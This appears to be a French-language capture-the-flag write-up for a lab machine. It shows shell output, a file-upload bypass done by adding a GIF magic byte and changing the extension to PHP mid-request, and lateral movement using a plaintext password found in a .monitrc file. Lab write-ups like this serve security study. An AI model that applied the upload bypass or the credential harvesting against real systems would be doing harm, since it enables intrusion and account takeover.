 ```bash
dash@usage:/$ cd
dash@usage:~$ ls
user.txt
dash@usage:~$ pwd
/home/dash
dash@usage:~$ cat user.txt
5313.....4bcc
```
Pour exploiter la faille, il fallait donc au minimum selectionner un fichier avec la bonne extension image (et le bon magic byte ? J'avais mis GIF8 au début du fichier au cas où). Une fois passer cette étape, en appuyant sur submit et en modifiant la requete au vol, il n'y a plus de vérification sur le fichier envoyé donc on peut changer en php il n'y aura aucun probleme.

## dash -> xander

### mmonit service : user password ?
Le serveur utilise le service mmonit. On peut trouver un fichier .monitrc intéressant sur le serveur:
```bash
cat .monitrc 
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring 
check system usage
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert 
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
       if space usage > 80% then alert
```
On trouve les creds:
allow admin:3nc0d3d_pa$$w0rd

### Xander user pwned
Le mdp est en fait celui de l'utilisateur xander... Dans le /home on observe bien un dossier "xander" que je n'avais pas vu dans un premier temps :
> xander : 3nc0d3d_pa$$w0rd
